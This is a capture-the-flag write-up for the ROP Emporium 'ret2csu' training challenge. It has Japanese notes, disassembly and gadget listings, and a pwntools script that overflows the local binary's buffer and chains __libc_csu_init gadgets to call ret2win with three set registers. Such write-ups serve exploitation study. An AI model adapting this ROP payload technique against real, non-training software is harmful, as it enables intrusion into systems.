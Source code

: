 # ret2csu (ROP Emporium 8)

## Information

### ret2win
```asm
00000000000009d3 <ret2win>:
 9d3:	55                   	push   rbp
 9d4:	48 89 e5             	mov    rbp,rsp
 9d7:	48 83 ec 30          	sub    rsp,0x30
 9db:	48 89 7d e8          	mov    QWORD PTR [rbp-0x18],rdi
 9df:	48 89 75 e0          	mov    QWORD PTR [rbp-0x20],rsi
 9e3:	48 89 55 d8          	mov    QWORD PTR [rbp-0x28],rdx
 9e7:	48 c7 45 f0 00 00 00 	mov    QWORD PTR [rbp-0x10],0x0
 9ee:	00 
 9ef:	48 b8 ef be ad de ef 	movabs rax,0xdeadbeefdeadbeef
 9f6:	be ad de 
 9f9:	48 39 45 e8          	cmp    QWORD PTR [rbp-0x18],rax
 9fd:	0f 85 d7 00 00 00    	jne    ada <ret2win+0x107>
 a03:	48 b8 be ba fe ca be 	movabs rax,0xcafebabecafebabe
 a0a:	ba fe ca 
 a0d:	48 39 45 e0          	cmp    QWORD PTR [rbp-0x20],rax
 a11:	0f 85 c3 00 00 00    	jne    ada <ret2win+0x107>
 a17:	48 b8 0d f0 0d d0 0d 	movabs rax,0xd00df00dd00df00d
 ...
```
引数が
1. rdi: 0xdeadbeefdeadbeef
2. rsi: 0xcafebabecafebabe
3. rdx: 0xd00df00dd00df00d

である必要がある

### gadget
pop系
```asm
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040069e : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006a0 : pop r14 ; pop r15 ; ret
0x00000000004006a2 : pop r15 ; ret
0x0000000000400604 : pop rbp ; jmp 0x400590
0x000000000040057b : pop rbp ; mov edi, 0x601038 ; jmp rax
0x000000000040069b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040069f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400588 : pop rbp ; ret
0x00000000004006a3 : pop rdi ; ret
0x00000000004006a1 : pop rsi ; pop r15 ; ret
0x000000000040069d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```
rdi, rsiはあるが，rdxがない

### csu
```asm
40069a:	5b                   	pop    rbx
40069b:	5d                   	pop    rbp
40069c:	41 5c                	pop    r12
40069e:	41 5d                	pop    r13
4006a0:	41 5e                	pop    r14
4006a2:	41 5f                	pop    r15
4006a4:	c3                   	ret

400680:	4c 89 fa             	mov    rdx,r15
400683:	4c 89 f6             	mov    rsi,r14
400686:	44 89 ef             	mov    edi,r13d
400689:	41 ff 14 dc          	call   QWORD PTR [r12+rbx*8]
40068d:	48 83 c3 01          	add    rbx,0x1
400691:	48 39 dd             	cmp    rbp,rbx
400694:	75 ea                	jne    400680 <__libc_csu_init+0x40>
400696:	48 83 c4 08          	add    rsp,0x8
40069a:	5b                   	pop    rbx
...
```

## Solution
1. pop rdi with 0xdeadbeefdeadbeef
2. 0x40069a with rbx=0, rbp=0, r12=0x601020(ret2win@got), r13=0xdeadbeaf(edi), r14=0xcafebabecafebabe(rsi), r15=0xd00df00dd00df00d(rdx)
3. 0x400680 

rdiを変えなきゃいけない -> callが戻ってきた後のretまで実行させたい
-> callでrdxに影響のないfiniに飛ばす

rbp = rbx + 1にすべき

### fini addr
```
pwndbg> search -t qword 0x4006b4
Searching for an 8-byte integer: b'\xb4\x06@\x00\x00\x00\x00\x00'
ret2csu         0x4003b0 mov ah, 6
ret2csu         0x400e48 mov ah, 6
ret2csu         0x6003b0 0x4006b4 (_fini)
ret2csu         0x600e48 0x4006b4 (_fini)
warning: Unable to access 16007 bytes of target memory at 0x7ffff7a01000, halting search.
pwndbg> hexdump 0x6003b0
+0000 0x6003b0  b4 06 40 00 00 00 00 00  00 00 00 00 00 00 00 00  │..@.....│........│
+0010 0x6003c0  00 6c 69 62 72 65 74 32  63 73 75 2e 73 6f 00 5f  │.libret2│csu.so._│
+0020 0x6003d0  5f 67 6d 6f 6e 5f 73 74  61 72 74 5f 5f 00 70 77  │_gmon_st│art__.pw│
+0030 0x6003e0  6e 6d 65 00 5f 69 6e 69  74 00 72 65 74 32 77 69  │nme._ini│t.ret2wi│
```

### Strategy New
1. 0x40069a with rbx=0, rbp=1, r12=0x6003b0(&fini), r13=0x0(edi), r14=0xcafebabecafebabe(rsi), r15=0xd00df00dd00df00d(rdx)
2. 0x400680  
3. 0x0 (add rsp 0x8のmargin) + 0x0(rbx) + 0x0(rbp) + 0x0(r12) + 0x0(r13) + 0x0(r14) + 0x0(r15)
4. pop rdi with 0xdeadbeefdeadbeef
5. 0x400510

### Script
```python
from pwn import *

elf = ELF("./ret2csu")
rop = ROP(elf)

payload = b'a'*0x28
payload += p64(0x40069a)
payload += p64(0x0)
payload += p64(0x1)
payload += p64(0x6003b0)
payload += p64(0x0)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += p64(0x400680)
payload += p64(0x0)
payload += p64(0x0)
payload += p64(0x0)
payload += p64(0x0)
payload += p64(0x0)
payload += p64(0x0)
payload += p64(0x0)
payload += p64(rop.rdi.address)
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0x400510)

conn=process("./ret2csu")

conn.sendlineafter("> ", payload)

conn.interactive()
```